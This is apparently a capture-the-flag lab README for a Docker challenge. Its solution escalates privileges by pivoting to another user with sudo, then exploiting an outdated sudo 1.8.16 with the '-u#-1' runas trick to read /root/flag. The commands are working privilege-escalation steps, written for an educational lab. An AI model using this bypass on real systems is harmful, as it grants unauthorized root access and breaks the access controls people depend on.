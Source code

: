 # Sudo - Integer Overflow

## Setup

1. Build the docker image
```bash
$ make build
```
2. Bind port & run docker image
```bash
$ make run
0.0.0.0:[PORT]
```
3. Log in to account 'user', password 'ctf'
`$ ssh user@localhost -p [PORT]`

## Solution

1. Looking through bash history, notices sudo permissions were probably changed with 'visudo'

```bash
# use history command
$ history
1. cd /etc/
2. visudo
3. ls -l .
4. exit
# or just print the contents
$ cat .bash_history
```

2. Check to see sudo permissions

```bash
$ sudo -l
User user may run the following commands on ...:
    (alice) ALL
```

3. Many things can be done at this point, easiest may be to just run bash
```bash

```bash
$ sudo -u alice /bin/bash
alice@...:~$
```

4. Running sudo -l again, notice strange permissions
```bash
$ sudo -l
User alice may run the following commands on ...:
    (ALL, !root) NOPASSWD: /bin/cat, /bin/ls
```

5. Looking at sudo version, we will notice the outdated version
```bash
$ sudo --version
Sudo version 1.8.16
Sudoers policy plugin version 1.8.16
Sudoers file grammar version 45
Sudoers I/O plugin version 1.8.16
```

6. This outdated version can be exploited for integer overflow. Use it to look at /root directory
```bash
$ sudo -u#-1 ls /root
flag
```
7. Read the flag!
```bash
$ sudo -u#-1 cat /root/flag
```

